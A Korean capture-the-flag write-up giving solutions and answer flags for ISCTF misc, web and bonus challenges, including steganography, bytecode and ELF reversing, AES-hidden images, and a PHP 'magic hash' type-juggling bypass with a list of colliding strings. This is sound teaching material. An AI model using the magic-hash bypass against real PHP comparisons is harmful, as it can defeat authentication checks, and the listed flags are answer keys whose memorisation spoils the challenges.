target\11117-.png:RI/BBec_&6,l/?yxP
target\11118-.png:UsaMBA/,\QkqUAIx0
target\11119-.png:uACk&PC5BfJ7-8Vd)
target\11121-.png:80ONST1gkXa'6/^3,
target\11122-.png:4,xJv1C+ZyW;-/a(]
target\11123-.png:1/'k,:).JH0`EpS&.
target\11124-.png:|R?o9c*43@o11\r={
target\11125-.png:^/88DU(_]nMe5r+#w
target\11126-.png:)Y#*nR@fXkJmloKuK
target\11127-.png:%i6:BM3{dle>FtAyU
target\11128-.png:NJg*s4;wx/rN@$2>I
target\11129-.png:%J4_q}jzFxr&37U6C
target\11131-.png:QJ2aDMuq<D5nIK?|:
target\11132-.png:03#FC'WAy{aknhMnX
target\11133-.png:B_b/"nc`:}zHoOuI`
target\11134-.png:/lpuKVe?3w,j{r{.-
(...)
target\47289-.png:u!AI+TyW6N6BCL&;X
target\47291-.png:Flag=V!oL3n7Lu9i@
target\47292-.png:L69\5k'xTk93eSX1*
(...)
target\99986-.png:x,qnn&+_Hk|b!w,#n
target\99987-.png:YUZ?0#s]LDd;3`k|u
target\99988-.png:[7[<=YPzf%cmi=oUz
target\99989-.png:RFxg5VU-I'T~#UN|Y
target\99991-.png:"=ts?OZ*{zFC4(Kir
target\99992-.png:)3#(H1gs5C6T7)[ez
target\99993-.png:J/27i0]Z]7&vAl\X2
target\99994-.png:kn4P:dC#XJ^r[V(7B
target\99995-.png:1F?dkL,mU:GV=Z_"'
target\99996-.png:]Axf'iuk]F0d~:#n'
target\99997-.png:^@+d!ajV+_P1Bn8ff
target\99998-.png:nk+pg7[[Z.qXp65/x
target\99999-.png:_x<4nIMc$Lwl-|UG-
````

### Answer flag

````
V!oL3n7Lu9i@
````

## [Misc2400] Congratulation!

Base64.

### 풀이

첨부된 이미지 `8168474dab4aa9090f3ef6d425665be1.jpeg`는 Password protected content를 포함하고 있다. 파일 패딩에서 다음 내용을 찾을 수 있다.

````
Password(Not a Flag!) is c3RlZ2Fub2dyYXBoeQ==
````

7-Zip File Manager를 이용해 JPEG 컨테이너 내의 보호된 파일을 찾을 수 있었다. 패스워드는 `c3RlZ2Fub2dyYXBoeQ==`이다. (이 값을 base64 decode한 `steganography`가 아님)

보호된 파일 이름은 `c29sdXRpb24=`이다. (`solution`을 base64 encode한 값임)

파일 내용은 다음과 같다.

````
VGhlIGFuc3dlciBpcyBTVzVtYjNKdFlYUnBiMjVmVTJWamRYSnBkSGxmUTFSR1gyUmhkR1U9
````

이것은 다음 내용의 Base64 encoding이다.

````
The answer is SW5mb3JtYXRpb25fU2VjdXJpdHlfQ1RGX2RhdGU=
````

### Answer flag

````
SW5mb3JtYXRpb25fU2VjdXJpdHlfQ1RGX2RhdGU=
````

(이 값을 base64 decode한 `Information_Security_CTF_date`가 아님)

## [Misc2500] Interpret me!

### 풀이

문제 힌트 `Tar lshsdaf'es pod wiroaposily`는 애너그램이다.

`The password is aprilfools'day`

문제 첨부파일 `Unzip_me!!!!.zip`은 패스워드로 보호된 PKZip 압축 아카이브 파일이다.

아카이브 파일 패스워드: `aprilfools'day`

내부 파일인 `not_a_windows_script_file.ws`는 Whitespace 프로그래밍 언어로 작성된 소스 코드 파일이다. (난해한 프로그래밍 언어로, 만우절에 발표됨)

실행 결과:

````
The answer is d2pkcWhxaGdoV0tE
````

### Answer flag

````
d2pkcWhxaGdoV0tE
````

## [Misc2600] Reversing with source code!

### 풀이

1. 문제로 제시된 코드를 Python interpreter에서 실행하면 코드가 실행된다. 실행이 끝나면 global name에 해당 코드가 생성한 함수 오브젝트가 남는다. (`func`)
2. `dis` 모듈을 활용, `__import__('dis').dis(func)` 코드를 실행하면 해당 함수를 디스어셈블한 코드를 볼 수 있다. (디스어셈블한 결과를 첨부함)
3. 해당 코드는 파일 형식을 맞춰서 pyc (파이썬 바이트코드 파일)로 저장하더라도 디컴파일러가 작동하지 않는다. (정규 바이트코드에는 포함되지 않는 코드 형식이 있어서 그런 것으로 추측.) 따라서 디스어셈블된 코드를 보고 직접 key 변수값을 만드는 과정을 추적했다. (디스어셈블된 코드를 보고 만든 python 코드조각을 첨부함)
4. 해당 코드를 python interpreter로 실행하여 key값을 만들어서 인증.

### pyc 디스어셈블 결과

````
  2           0 LOAD_GLOBAL              0 (chr)
              3 NOP
              4 LOAD_CONST               2 (95)
              7 CALL_FUNCTION            1

  3          10 STORE_FAST               0 (key)
             13 LOAD_GLOBAL              0 (chr)
             16 LOAD_CONST               3 (124)
             19 CALL_FUNCTION            1

  4          22 LOAD_FAST                0 (key)
             25 BINARY_ADD
             26 STORE_FAST               0 (key)
             29 LOAD_GLOBAL              0 (chr)
             32 LOAD_CONST               4 (94)
             35 CALL_FUNCTION            1

  5          38 LOAD_FAST                0 (key)
             41 BINARY_ADD
             42 STORE_FAST               0 (key)
             45 LOAD_FAST                0 (key)
             48 LOAD_CONST               0 (None)
             51 LOAD_CONST               0 (None)

  6          54 LOAD_CONST               5 (-1)
             57 BUILD_SLICE              3
             60 BINARY_SUBSCR
             61 LOAD_GLOBAL              0 (chr)
             64 LOAD_CONST               6 (46)
             67 CALL_FUNCTION            1
             70 BINARY_ADD
             71 LOAD_FAST                0 (key)
             74 BINARY_ADD
             75 STORE_FAST               0 (key)
             78 LOAD_GLOBAL              0 (chr)
             81 LOAD_CONST               7 (78)
             84 CALL_FUNCTION            1

  7          87 LOAD_FAST                0 (key)
             90 BINARY_ADD
             91 LOAD_CONST               0 (None)
             94 LOAD_CONST               0 (None)
             97 LOAD_CONST               5 (-1)
            100 BUILD_SLICE              3
            103 BINARY_SUBSCR
            104 LOAD_GLOBAL              0 (chr)
            107 LOAD_CONST               8 (111)
            110 CALL_FUNCTION            1
            113 BINARY_ADD
            114 STORE_FAST               0 (key)
            117 LOAD_GLOBAL              0 (chr)
            120 LOAD_CONST               9 (103)
            123 CALL_FUNCTION            1

  8         126 LOAD_FAST                0 (key)
            129 BINARY_ADD
            130 LOAD_GLOBAL              0 (chr)
            133 NOP
            134 LOAD_CONST              10 (104)
            137 CALL_FUNCTION            1
            140 BINARY_ADD
            141 STORE_FAST               0 (key)
            144 LOAD_GLOBAL              0 (chr)
            147 NOP
            148 LOAD_CONST              11 (90)
            151 CALL_FUNCTION            1
            154 POP_TOP
            155 LOAD_GLOBAL              0 (chr)
            158 NOP
            159 LOAD_CONST               9 (103)

 10         162 CALL_FUNCTION            1
            165 POP_TOP
            166 LOAD_GLOBAL              0 (chr)
            169 NOP
            170 LOAD_CONST              12 (32)
            173 CALL_FUNCTION            1
            176 POP_TOP
            177 LOAD_GLOBAL              0 (chr)
            180 LOAD_CONST              12 (32)
            183 CALL_FUNCTION            1
            186 POP_TOP
            187 LOAD_GLOBAL              0 (chr)
            190 LOAD_CONST              12 (32)
            193 CALL_FUNCTION            1
            196 POP_TOP
            197 LOAD_GLOBAL              0 (chr)
            200 NOP
            201 LOAD_CONST              13 (80)
            204 CALL_FUNCTION            1
            207 LOAD_GLOBAL              0 (chr)
            210 LOAD_CONST              14 (121)
            213 CALL_FUNCTION            1
            216 BINARY_ADD
            217 LOAD_GLOBAL              0 (chr)
            220 NOP
            221 LOAD_CONST              15 (116)
            224 CALL_FUNCTION            1
            227 BINARY_ADD
            228 LOAD_FAST                0 (key)
            231 LOAD_CONST               0 (None)
            234 LOAD_CONST               0 (None)
            237 LOAD_CONST               5 (-1)
            240 BUILD_SLICE              3
            243 BINARY_SUBSCR
            244 BINARY_ADD
            245 LOAD_GLOBAL              0 (chr)
            248 LOAD_CONST               8 (111)
            251 CALL_FUNCTION            1
            254 BINARY_ADD
            255 LOAD_GLOBAL              0 (chr)
            258 LOAD_CONST               1 (83)
            261 CALL_FUNCTION            1
            264 BINARY_ADD
            265 STORE_FAST               0 (key)
            268 LOAD_GLOBAL              0 (chr)

 15         271 NOP
            272 LOAD_CONST              16 (97)
            275 CALL_FUNCTION            1
            278 LOAD_GLOBAL              0 (chr)
            281 LOAD_CONST              17 (114)
            284 CALL_FUNCTION            1
            287 BINARY_ADD
            288 LOAD_GLOBAL              0 (chr)
            291 NOP
            292 LOAD_CONST              18 (51)
            295 CALL_FUNCTION            1
            298 BINARY_ADD
            299 LOAD_FAST                0 (key)
            302 BINARY_ADD
            303 LOAD_GLOBAL              0 (chr)
            306 LOAD_CONST              19 (117)
            309 CALL_FUNCTION            1
            312 BINARY_ADD
            313 STORE_FAST               0 (key)
            316 LOAD_GLOBAL              0 (chr)
            319 LOAD_CONST              20 (85)
            322 CALL_FUNCTION            1
            325 LOAD_GLOBAL              0 (chr)
            328 NOP
            329 LOAD_CONST              21 (48)
            332 CALL_FUNCTION            1
            335 BINARY_ADD
            336 LOAD_GLOBAL              0 (chr)
            339 LOAD_CONST              14 (121)
            342 CALL_FUNCTION            1
            345 BINARY_ADD
            346 LOAD_CONST               0 (None)
            349 LOAD_CONST               0 (None)
            352 LOAD_CONST               5 (-1)
            355 BUILD_SLICE              3
            358 BINARY_SUBSCR
            359 LOAD_FAST                0 (key)
            362 BINARY_ADD
            363 STORE_FAST               0 (key)

 17         366 LOAD_GLOBAL              0 (chr)
            369 LOAD_CONST              11 (90)
            372 CALL_FUNCTION            1
            375 POP_TOP

 18         376 LOAD_FAST                0 (key)
            379 LOAD_GLOBAL              0 (chr)
            382 LOAD_CONST              22 (126)
            385 CALL_FUNCTION            1
            388 LOAD_GLOBAL              0 (chr)
            391 LOAD_CONST              23 (33)
            394 CALL_FUNCTION            1
            397 BINARY_ADD
            398 LOAD_GLOBAL              0 (chr)
            401 LOAD_CONST              24 (64)
            404 CALL_FUNCTION            1
            407 BINARY_ADD
            408 BINARY_ADD
            409 STORE_FAST               0 (key)

 20         412 LOAD_CONST               5 (-1)
            415 LOAD_CONST               0 (None)
            418 IMPORT_NAME              1 (time)
            421 STORE_FAST               1 (time)

 21         424 LOAD_FAST                0 (key)
            427 LOAD_GLOBAL              2 (raw_input)
            430 LOAD_CONST              25 ('Password: ')
            433 CALL_FUNCTION            1
            436 COMPARE_OP               2 (==)
            439 POP_JUMP_IF_FALSE      463

 22         442 LOAD_FAST                1 (time)
            445 LOAD_ATTR                3 (sleep)
            448 LOAD_CONST              26 (10)
            451 CALL_FUNCTION            1
            454 POP_TOP

 23         455 LOAD_CONST              27 ('Correct! good job!!')
            458 PRINT_ITEM
            459 PRINT_NEWLINE
            460 JUMP_FORWARD            18 (to 481)

 25     >>  463 LOAD_FAST                1 (time)
            466 LOAD_ATTR                3 (sleep)
            469 LOAD_CONST              26 (10)
            472 CALL_FUNCTION            1
            475 POP_TOP

 26         476 LOAD_CONST              28 ('Wrong password, try again! Plz do not bruteforce-it :)')
            479 PRINT_ITEM
            480 PRINT_NEWLINE
        >>  481 LOAD_CONST               0 (None)
            484 RETURN_VALUE

````

### 분석 결과

````python
key = chr(95)
key = chr(124) + key
key = chr(94) + key
key = key[::-1] + chr(46) + key
key = (chr(78) + key)[::-1] + chr(111)
key = chr(103) + key + chr(104)
key = chr(80)  + chr(121) + chr(116) + key[::-1] + chr(111) + chr(83)
key = chr(97) + chr(114) + chr(51) + key + chr(117)
key = (chr(85) + chr(48) + chr(121))[::-1] + key
key = key + chr(126) + chr(33) + chr(64)
````

실행 결과:

````
>>> print(key)
y0Uar3PythoN_|^.^|_goSu~!@
````

### Answer flag

````
ISCTF{y0Uar3PythoN_|^.^|_goSu~!@}
````

## [Misc2700] Easy reversing :D

### 풀이

문제 첨부파일 `rev2700_fixed`은 i386 32비트 ELF LSB 실행파일이다.

Long Long int가 4개 존재하는데, 이중 2개는 덮어씌워지므로 나머지 2개의 integer만 중요.

xor의 역연산은 xor이므로 필요한 값들만 가져와 역연산하면 됨.

아래는 주어진 파일을 디컴파일한 코드이다.

````
if ( argc == 2 )
  {
    if ( strlen(argv[1]) == 16 )
    {
      s2 = 0LL;
      v8 = 0LL;
      v9 = 0;
      v10 = 48;
      v11 = 64;
      v12 = 64;
      v13 = 48;
      v14 = 64;
      v15 = 48;
      v16 = 32;
      v17 = 48;
      v18 = 48;
      v19 = 64;
      v20 = 48;
      v21 = 48;
      v22 = 0;
      v23 = 64;
      v24 = 64;
      v25 = 2338898147514671427LL;
      v26 = 2334398917027194226LL;
      v27 = 8030604370232567924LL;
      v28 = 2970722360994394727LL;
      v29 = 0;
      for ( i = 0; i < 32; ++i )
        *((_BYTE *)&s2 + i % 16) = *((_BYTE *)&v25 + i) ^ argv[1][i % 16];
      for ( j = 0; j < 16; ++j )
        *((_BYTE *)&s2 + j) ^= *(&v9 + j);
      if ( !memcmp("1lZJObq920rlaGEH", &s2, 0x10uLL) )
      {
        puts("Correct !! ");
        printf("The flag is ISCTF{%s}\n", argv[1], argv);
      }
      else
      {
        puts("Nop, nop, its not! :( ");
      }
      result = 0;
    }
    else
    {
      puts("the passcode length must be 16 ");
      result = -1;
    }
  }
````

아래 직접 작성한 코드를 컴파일해 flag를 얻는다. Endianness에 주의! (LE임)

````
#include <stdio.h>
#include <string.h>

int main()
{
  unsigned long long s2=0;
  unsigned long long v8=0;
  unsigned char v[50];
  v[9] = 0;
  v[10] = 48;
  v[11] = 64;
  v[12] = 64;
  v[13] = 48;
  v[14] = 64;
  v[15] = 48;
  v[16] = 32;
  v[17] = 48;
  v[18] = 48;
  v[19] = 64;
  v[20] = 48;
  v[21] = 48;
  v[22] = 0;
  v[23] = 64;
  v[24] = 64;
  char v27a[20] = { 0x74,0x68,0x69,0x73,0x20,0x70,0x72,0x6F };
  char v28a[20] = { 0x67,0x72,0x61,0x6D,0x3F,0x20,0x3A,0x29 };
  unsigned long long v27 = 8030604370232567924;
  unsigned long long v28 = 2970722360994394727;

  char ans[17] = { "1lZJObq920rlaGEH" };
  int i,j;

  for (i = 0; i < 16; i++)
  {
    ans[i] ^= v[9 + i];
  }
  for (i = 0; i < 8; i++)
  {
    ans[i] = (ans[i] ^ v27a[i]);
  }
  for (i = 0; i < 8; i++)
  {
    ans[i + 8] = (ans[i + 8] ^ v28a[i]);
  }
  for (i = 0; i < 16; i++)
  {
    printf("%d ", ans[i]);
  }
  return 0;
}
````

### Answer flag

````
ISCTF{E4sy_R3verS1ng?!}
````

## [Misc2800] Guessing

### 풀이

파일 `guessing.7z` 내부에 `MDCCCXIX.png`가 있다. `MDCCCXIX` = `1819`

이미지의 흰색 배경은 일정한 색이 아닌데, `rgb(255, 255, 255)`인 배경과 달리 `rgb(254, 254, 254)` 색으로 다음 텍스트가 쓰여 있다.

````
33.667034
-117.723680
````

좌표 `33.667034N 117.723680W`의 위치는 Orange County Great Park이다

TOP SECRET. greatpark1819 는 최근 최순실 태블릿에서 나온 이메일 계정이다.

### Answer flag

````
greatpark1819
````

## [Misc3000] I got you in my sights

문제 첨부파일 이미지 `Boop.jpg`

메타데이터 영역에서 유의미해 보이는 두 문자열

`Anna;Eichenwald;Sombra`, `P1zz4_Hanz0_gak_`

패딩 영역에서 문자열 `Boop!!!!`을 찾았고, 그 이후로 공백문자를 제거한 다음부터 나온 Byte sequence block을 해독하기로 했다. `Anna;Eichenwald;Sombra` 로부터 AES 알고리즘이라는 힌트를 얻어 `P1zz4_Hanz0_gak_` 을 키로 AES128 ECB decrypt 하였다. (해독한 파일 덤프를 첨부)

그래서 나온 결과값을 bitmap 이미지로 추측 (파일 크기가 정확히 1920000 바이트였으며 FF부터 시작해서 값이 점진적으로 바뀌는 바이트 패턴을 보고 추측함), 직접 bitmap 데이터를 만들며 크기, 형식, 이미지 패턴 등을 추측하여 완성된 이미지를 얻어냈다. (C# 코드를 첨부)

결과는 픽셀당 24bit color를 사용하며, 800x800 정사각형 이미지를 5조각으로 나눠 각 y축 라인에 한번씩 교차해서 출력한 이미지 (해당 이미지 사이즈는 160*4000) 였다. 5개 이미지로 올바르게 출력한 뒤 합쳐서 이미지에 적힌 키값을 보고 인증.

### AES decrypt 대상 블록 및 결과 블록

대상: (0x00012926부터)

````
000128d0: 426f 6f70 2121 2121 0000 0000 0000 0000  Boop!!!!........
000128e0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000128f0: 424d 364c 1d00 0000 0000 3600 0000 2800  BM6L......6...(.
00012900: 0000 2003 0000 2003 0000 0100 1800 0000  .. ... .........
00012910: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00012920: 0000 0000 0000 6c46 9176 43c5 afc0 d103  ......lF.vC.....
00012930: d8bd 5237 a22e 7720 d225 ee46 e1c2 8be5  ..R7..w .%.F....
00012940: fa6f 5150 bb4c c149 b76f a485 fd8e 0ff2  .oQP.L.I.o......
00012950: 08a5 69bd 3dc7 4aa9 7a07 de70 6655 12f6  ..i.=.J.z..pfU..
00012960: 8e0d 3077 aeba 7720 d225 ee46 e1c2 8be5  ..0w..w .%.F....
00012970: fa6f 5150 bb4c c149 b76f a485 fd8e 0ff2  .oQP.L.I.o......
00012980: 08a5 69bd 3dc7 202b 05af 51a2 99a6 eac0  ..i.=. +..Q.....
00012990: 6b58 f56d 6857 b904 0363 ff8e a162 e360  kX.mhW...c...b.`
000129a0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
000129b0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
000129c0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
000129d0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
000129e0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
000129f0: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
00012a00: b353 c043 7ed5 b904 0363 ff8e a162 e360  .S.C~....c...b.`
(...)
001e7500: 1aad d489 b4c6 dfcc ecbc ab9b 7517 ed93  ............u...
001e7510: a79a 9281 5b22 f9e5 3b34 4689 ddf1 3f8e  ....["..;4F...?.
001e7520: 06c1 ea3c 8d43                           ...<.C
(END)
````

결과:

````
00000000: ffff ffff fffe ffff feff fffe ffff feff  ................
00000010: fffe ffff feff fffe ffff feff fffe ffff  ................
00000020: feff fffe ffff feff fffe ffff feff fffe  ................
00000030: ffff feff fffe ffff feff fffe ffff feff  ................
00000040: fffe ffff feff fffe ffff feff fffe ffff  ................
00000050: feff fffe ffff feff fffe ffff feff fffe  ................
00000060: ffff feff fffe ffff feff ffff ffff ffff  ................
00000070: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000080: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000090: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000a0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000b0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000c0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000d0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000e0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
000000f0: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000100: ffff ffff ffff ffff ffff ffff ffff ffff  ................
00000110: ffff ffff ffff ffff ffff ffff ffff fffe  ................
00000120: ffff feff fffe ffff feff fffe ffff feff  ................
00000130: fffe ffff feff fffe ffff feff ffff ffff  ................
00000140: ffff ffff ffff ffff ffff ffff ffff fffe  ................
00000150: ffff feff fffe ffff feff ffff ffff ffff  ................
00000160: fffe ffff feff fffe ffff feff fffe ffff  ................
00000170: feff fffe ffff feff ffff ffff ffff fffe  ................
00000180: ffff feff fffe ffff feff fffe ffff feff  ................
00000190: fffd ffff fdff fffd ffff fdff fffd ffff  ................
000001a0: fdff fffd ffff fdff fffd ffff fdff fffd  ................
000001b0: ffff fdff fffd ffff fdff fffe ffff feff  ................
000001c0: fffe ffff feff fffe ffff feff fffd ffff  ................
000001d0: fdff fffd ffff fdff fffe ffff feff fffe  ................
000001e0: ffff feff fffd ffff fdff fffd ffff fdff  ................
000001f0: fffd ffff fdff fffd ffff fdff fffd ffff  ................
00000200: fdff fffd ffff fdff fffc ffff fcff fffc  ................
00000210: ffff fcff fffd ffff fdff fffd ffff fdff  ................
00000220: fffd ffff fdff fffd ffff fdff fffc ffff  ................
(...)
001d4bc0: a8cf a8a7 cfa8 a7cf a8a7 cfa8 a7cf a8a7  ................
001d4bd0: cfa8 a7cf a8a7 cfa7 a7cf a7a7 cfa7 a7cf  ................
001d4be0: a7a7 cfa8 a7cf a9a8 cfa9 a8cf a9a9 cfa9  ................
001d4bf0: a9cf a8a8 d0a8 a8d1 a8a8 d1a8 a8d1 a8a9  ................
````

### 이미지 변환 프로그램 소스 코드: CTFHanzoGakImageRenderer

````csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.IO;
using System.Drawing;

namespace CTFHanzoGakImageRenderer
{
	class Program
	{
		const string c_hanzogak		= "PizzaHanzoGakAES.dat";
		const int   c_width			= 160;
		const int   c_height		= 800;
		const int   c_bytePerPixel  = 3;
		const int   c_imageCount    = 5;

		static void Main(string[] args)
		{
			var buffer		= new byte[c_bytePerPixel];
			var bitmaps		= new Bitmap[5];
			for(var i = 0; i < bitmaps.Length; i++)
				bitmaps[i]	= new Bitmap(c_width, c_height);
			var pixelcount	= 0;

			using (var file = new FileStream(c_hanzogak, FileMode.Open))
			{
				while(file.Read(buffer, 0, c_bytePerPixel) > 0)
				{
					var color   = Color.FromArgb(255, buffer[2], buffer[1], buffer[0]);
					var x       = pixelcount % c_width;
					var y       = pixelcount / c_width;

					bitmaps[y % c_imageCount].SetPixel(x, c_height - (y / c_imageCount) -  1, color);

					pixelcount++;
				}
			}

			for(var i = 0; i < c_imageCount; i++)
			{
				bitmaps[i].Save("hanzogak_output" + i + ".png", System.Drawing.Imaging.ImageFormat.Png);
			}
		}
	}
}
````

위 프로그램을 컴파일해 PizzaHanzoGakAES.dat 파일과 동일 경로에서 실행하면 hanzogak_output0.png ~ hanzogak_output4.png를 얻는다. (순서대로)

    

### Answer flag

````
Ryu_Y0_W4g4_T3k1_W0_Kur43
````

## [Web1000] Welcome to web challenge

### 풀이

CTF 모든 페이지의 HTML 소스코드 하단에 다음 내용이 주석처리되어 있음

````
<!-- Hello, there !! I have a gift for you :D Web1000 flag is ISCTF{cheer up!! you guys :D} -->
````

### Answer flag

````
ISCTF{cheer up!! you guys :D}
````

## [Web2000] Mining collision hashes !!

### 풀이

PHP 소스 코드가 문제에 공개되어 있다. 10개의 문자열을 개행문자로 구분해 서버에 제출하면, 각각에 대해 MD5 hash를 해서 문자열 `"0e132985193759135791283134951518"`과 PHP `==` 비교 연산을 해서 그 결과가 모두 TRUE여야 한다.

문제 이름은 MD5 Hash collision attack으로 착각하게 만들지만, PHP Magic Hash Vulnerability를 공략해서 빠르게 풀 수 있는 문제이다.

문자열 내 값이 수치 표현의 문자열 변환과 같은 경우, PHP에서는 일단 이 문자열을 수치로 변환해서 비교 연산을 적용한다. 즉 비교 연산에서 피연산자가 `0e[0-9]{30}`인 경우 이 값은 부동소숫점 값 +0이 된다. 따라서 이 패턴에 해당하는 MD5 값을 갖는 문자열은 PHP에서 MD5 값 문자열로 `==` 비교할 경우 모두 그 결과가 TRUE가 된다.

MD5 결과가 `0e[0-9]{30}`가 되는 값들은 다음과 같다.

````
md5sum:
aaaXXAYW => 0e540853622400160407992788832284
aabC9RqS => 0e041022518165728065344349536299
ABJIHVY => 0e755264355178451322893275696586
EEIZDOI => 0e782601363539291779881938479162
GEGHBXL => 0e248776895502908863709684713578
IHKFRNS => 0e256160682445802696926137988570
MAUXXQC => 0e478478466848439040434801845361
NWWKITQ => 0e763082070976038347657360817689
PJNPDWY => 0e291529052894702774557631701704
QNKCDZO => 0e830400451993494058024219903391
````

위 테이블에서 원문 문자열들을 `\n`으로 구분해 웹 사이트에서 submit 하면 다음 메시지를 alert로 볼 수 있다.

````
ISCTF{Easily done by php magic hash}
````

### Answer flag

````
ISCTF{Easily done by php magic hash}
````

## [Bon1500] KiKiKiKiKiKi

### 풀이

첨부파일 `Gathering_key.pptx`을 읽어 보면 모든 Key를 찾아서 `_`로 접합해서 MD5 값을 구해 Answer flag 포맷에 맞춰 제출하면 됨을 알 수 있다. Key의 개수는 6개이다.

* FirstKey: Start
* Key#2: Kimchi
* Key#3: Danmoooji
* Key#4: SoJoooo
* Key#5: P1zzza
* LastKey: K1mB0b

슬라이드 마지막 페이지에 이미지로 들어있는 LastKey를 제외하면, pptx 파일을 `unzip` 해서 `grep -ir`로 모든 Key 값을 구할 수 있다.

````
$ echo -n "Start_Kimchi_Danmoooji_SoJoooo_P1zzza_K1mB0b" | md5sum
fb8027a2737dd2c0c8a3b82be28e8ee5 *-
````

### Answer flag

````
ISCTF{fb8027a2737dd2c0c8a3b82be28e8ee5}
````

## [Bon1700] The script

### 풀이

문제 첨부파일인 `srcode.cpp`은 flag string을 입력받아 `hash()`해서 `check()`하는 프로그램이다. `check()`는 hash 결과가 `enc_flag[]` 값과 일치하는지를 반환한다.

`hash()` 함수를 임의의 문자열에 4번 적용하면 원래 값으로 돌아오는 특성을 발견, `hash()` 결과가 `enc_flag[]`와 같기 위해서는 원본 값이 `enc_flag[]`에 `hash()`를 3번 적용해서 나온 값과 같아야 하기 때문에 빠르게 코드를 작성할 수 있었다.

### enc_flag[] dehash 프로그램 소스 코드

(srcode.cpp를 활용해 작성함)

````
#include <cstdio>
#include <iostream>
#include <iomanip>
#include <string>
#include <cstring>
#include <functional>
#include <algorithm>

typedef unsigned char byte;

static byte enc_flag[] = {
	0x94, 0x1d, 0x1c, 0x51, 0x58, 0x82, 0x1d, 0x53,
	0x0f, 0xda, 0x52, 0x07, 0xda, 0x5e, 0xdd, 0x07,
	0xda, 0xdd, 0x43, 0x92, 0x56, 0xdd, 0x92, 0x16,
	0x07, 0x07, 0xdd, 0xde, 0x5a, 0xdd, 0x11, 0x16,
	0x07, 0xda, 0x06, 0x86, 0x00
};

static byte *hash(byte *in, size_t size)
{
	byte c;
	byte *p = in;

	while (size--)
	{
		c = (*p & 3) << 2;
		c |= (*p & 12) << 4;
		c |= (*p & 48) >> 4;
		c |= (*p & 192) >> 2;

		*p++ = c;
	}

	return in;
}

int main() {
	size_t i, len;
	len = sizeof(enc_flag);
	hash(enc_flag, len);
	hash(enc_flag, len);
	hash(enc_flag, len);
	puts((char *)enc_flag);
	return 0;
}
````

실행 결과

````
ISCTF(St3nd1ng_1n_4he_ha11_of_Pa1n!)
````

### Answer flag

````
ISCTF{St3nd1ng_1n_4he_ha11_of_Pa1n!}
````

## [Bon2000] wanna play or wanna sleep

### 풀이

문제와 함께 올라온 `Longboard.bmp` 파일의 픽셀 배열을 잘 살펴보면, 오른쪽으로 27픽셀씩 어긋나있음을 알 수 있다.

이미지의 원본 크기가 628x800 이므로 헤더를 조작하여 width를 27픽셀 줄인 601x835로 이미지 크기를 변경한다. 이미지를 열어보면 이미지에 포함된 키를 읽을 수 있다.


### Answer flag

````
ISCTF{Let1s_L0ngbo4rdinq}
````

## [Bon2300] Easy_Steganography



문제 첨부파일 `flying_professor.PNG`의 (275, 49) 위치부터 사진과는 다른 색상으로 덧씌워진 픽셀들이 있다. 색상 리스트는 RGB 888로 다음과 같다.

````
(118, 97, 106)
(32, 99, 103)
(120, 121, 120)
(119, 32, 107)
(108, 32, 110)
(117, 118, 121)
(104, 123, 122)
(106, 112, 98)
(122, 117, 95)
(111, 110, 105)
(120, 115, 103)
(107, 106, 33)
(125, 0, 0)
````

Byte sequence로 만들어서 출력해 보면 `vaj cgxyxw kl nuvyh{zjpbzu_onixsgkj!}`가 나온다. Vigenere ciper임을 알 수 있었다.

Solver를 돌려서 결과로 `the answer is isctf{genius_vigenere!}`를 얻었다.

### Answer flag

````
ISCTF{genius_vigenere!}
````

## [Bon2700] PPAP

### 풀이

첨부파일 `PPAP.zip`의 내용물

````
$ wc -c PINEAPPLE APPLE PEN1 PEN2
 56610 PINEAPPLE
 31450 APPLE
 18870 PEN1
 18868 PEN2
125798 합계
````

Pen Pineapple Apple Pen. 3 byte from `PEN1`, 9 byte from `PINEAPPLE`, 5 byte from `APPLE`, 3 byte from `PEN2` 순서로 새 파일을 만든다. 결과로 아래 그림 파일을 얻는다.


### Answer flag

````
applepencilforipadpro
````
